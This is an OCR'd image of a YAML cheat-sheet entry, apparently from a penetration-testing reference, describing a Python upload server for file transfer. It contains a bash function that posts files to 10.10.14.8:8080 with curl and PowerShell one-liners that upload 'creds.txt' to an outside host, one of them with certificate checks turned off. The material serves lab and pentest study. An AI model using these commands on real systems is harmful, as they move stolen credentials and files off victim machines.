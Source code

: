 ```yaml
---
functions:
  file-transfer:
    - description: This python script will handle file uploads and supports POST requests
      code: |
        usage: http-server.py [-h] [-p PORT] [-l LISTEN] [-n]

        A Better Python3 HTTP Server

        optional arguments:
          -h, --help            show this help message and exit
          -p PORT, --port PORT  the port for the http service to listen on
          -l LISTEN, --listen LISTEN
                                the interface to bind to
          -n, --no-ssl          do not serve https / ssl

        UPLOAD:
          Start the Server - python3 http-server.py
          Pick your method:

          - - - curl - - - 
          curl -k -i -X POST -F 'filename=@<filename>' -F 'name=file' http(s)://<ip>:<port>
          
          TIP - cp paste this function and run "get <file>"

        get(){
        file=$1
        ip="10.10.14.8"
        port="8080"
        #echo $file $ip $port
        output=$(curl -k -i -X POST -F filename=@"$file" -F name=file "http://$ip:$port")
        if [[ "$output" == *"success"* ]]; then
          echo "[+] Uploaded! --> $file"
        else
          echo "[-] Upload Failed! --> $file $ip:$port"
        fi
        }

          - - - powershell - - - 
          powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
          powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')
          (3) manually browsing to the ip and port
          (4) profit!
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/http-server.py

---
```

